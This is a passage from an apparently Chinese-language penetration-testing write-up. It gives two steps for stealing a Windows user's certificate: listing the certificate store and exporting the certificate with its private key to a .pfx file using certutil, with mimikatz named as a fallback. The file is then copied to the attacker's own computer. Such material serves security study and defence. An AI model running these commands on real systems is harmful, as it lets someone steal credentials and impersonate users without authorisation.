 ```plain
certutil -user -store My
```

[![](assets/1701606771-5f7bb226ed5c2db2909c34c456b1bcc3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106143345-6fbe9124-7c6e-1.png)  
Step 3：使用 certutil 导出证书 (如果导出不了的话，就用 mimikatz 来导出证书)

```plain
certutil -user -exportPFX f418dede290437696deeb6f53f099f1b58c918fb c:\Users\Al1ex.HACKE\Desktop\Al1ex.pfx
```

[![](assets/1701606771-61ea9cf2080e2384988f56bc054b2e86.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106143407-7c8d5340-7c6e-1.png)  
Step 4：然后把 pfx 文件拷贝到我们自己的计算机，双击导入，输入刚刚我们输的密码  